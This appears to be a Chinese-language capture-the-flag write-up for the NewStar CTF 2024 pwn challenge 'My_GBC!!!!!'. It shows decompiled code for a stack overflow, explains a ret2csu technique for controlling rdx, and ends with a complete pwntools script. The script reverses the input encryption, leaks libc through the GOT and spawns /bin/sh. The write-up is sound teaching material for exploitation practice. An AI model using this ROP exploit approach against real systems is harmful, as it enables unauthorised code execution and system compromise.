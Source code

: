```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# My_GBC\!\!\!\!\!

先将程序拖入 IDA 分析

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  initial(argc, argv, envp);
  write(1, "It's an encrypt machine.\nInput something: ", 0x2CuLL);
  len = read(0, buf, 0x500uLL);
  write(1, "Original: ", 0xBuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  encrypt(buf, (unsigned __int8)key, (unsigned int)len);
  write(1, "Encrypted: ", 0xCuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  return 0;
}
```

发现存在一个简单的栈溢出，并且输入的数据经过了某种加密处理，异或后左移

```C
__int64 __fastcall encrypt(__int64 a1, char a2, int a3)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i >= a3 )
      break;
    *(_BYTE *)((int)i + a1) ^= a2;
    *(_BYTE *)(a1 + (int)i) = __ROL1__(*(_BYTE *)((int)i + a1), 3);
  }
  return result;
}
```

运行程序后发现，栈溢出时，`rdx` 寄存器值为 1，而程序中能利用的函数 `read` `write` 的三参都是长度，这对我们利用十分不利，因此我们选择 ret2csu

![ret2csu](/assets/images/wp/2024/week2/my-gbc_1.png)

这是 csu 的代码片段，第一段代码能将 `r12` `r13` `r14` 分别 mov 到 `rdi` `rsi` `rdx`，这样我们便能控制 `rdx`，即控制函数的三参，并且后面还有 `call [r15+rbx*8]`，能控制程序的走向；第二段代码则是一长串的 `pop`，配合上述代码，即可达到 ROP，控制程序流程

需要注意的是，`call` 后面有 `add rbx, 1;` `cmp rbp, rbx;` `jnz` ...，我们需要控制 `rbx = 0` `rbp = 1`

对于加密函数，异或和左移都是可逆运算，我们只需对我们输入的内容先右移后异或 `0x5A` 即可

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
def uu64(x): return u64(x.ljust(8, b'\x00'))
def s(x): return p.send(x)
def sa(x, y): return p.sendafter(x, y)
def sl(x): return p.sendline(x)
def sla(x, y): return p.sendlineafter(x, y)
def r(x): return p.recv(x)
def ru(x): return p.recvuntil(x)


k = 1
if k:
    addr = ''
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./My_GBC!!!!!')
elf = ELF('./My_GBC!!!!!')
libc = ELF('./libc.so.6')


def debug():
    gdb.attach(p, 'b *0x401399\nc\n')


def ror(val, n):
    return ((val >> n) | (val << (8 - n))) & 0xFF


def decrypt(data: bytes, key: int):
    decrypted_data = bytearray()
    for byte in data:
        byte = ror(byte, 3)
        byte ^= key
        decrypted_data.append(byte)
    return decrypted_data


def csu_1(arg1, arg2, arg3, func=0, rbx=0, rbp=1):
    r12 = arg1
    r13 = arg2
    r14 = arg3
    r15 = func
    payload = p64(0x4013AA)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    return payload


def csu_2():
    payload = p64(0x401390)
    return payload


add_rsp_8_ret = 0x401016
ret = 0x40101a
payload = b'a' * 0x18 + csu_1(1, elf.got.read, 0x100, elf.got.write) + csu_2()
payload += csu_1(0, 0x404090, 0x50, elf.got.read) + csu_2()
payload += csu_1(0, 0, 0, 0x404098) + csu_2() + p64(ret)
payload += csu_1(0x4040A0, 0, 0, 0x404090) + csu_2()
# debug()
ru(b'Input something:')
s(decrypt(payload, 90))

libc_base = uu64(ru(b'\x7f')[-6:]) - libc.sym.read
success(f"libc_base --> 0x{libc_base:x}")

payload = p64(libc_base + libc.sym.system + 0x0) + p64(add_rsp_8_ret) + b'/bin/sh\x00'
s(payload)

p.interactive()
```
